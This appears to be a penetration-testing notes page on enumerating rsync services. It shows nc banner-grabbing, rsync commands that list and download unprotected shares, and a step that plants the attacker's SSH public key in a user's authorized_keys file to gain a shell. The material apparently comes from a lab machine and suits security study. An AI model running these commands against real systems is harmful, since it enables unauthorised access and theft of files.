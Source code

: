 # Rsync Enumeration

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync" %}

The first thing we do is follow this guide:&#x20;

```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

If after we try to list a share and there is just an OK. It means it isn't password protected which means we can freely list and upload files to the share.&#x20;

To list the share:

```
rsync -av --list-only rsync://192.168.0.123/shared_name
```

To download the share:&#x20;

```
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```

If we have credentials:&#x20;

```
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```

Take into account situational awareness, in the case of the machine fail, we were placed in a home folder for a user.&#x20;

So we can copy our own public key and paste the contents to an authorized\_keys file and transfer it using rsync.&#x20;

```
rsync -av blah/.ssh/authorized_keys rsync://username@192.168.0.123/home_user/.ssh
```

Change the permissions of the id\_rsa.pub key that we generated to 400 and we can ssh in.&#x20;

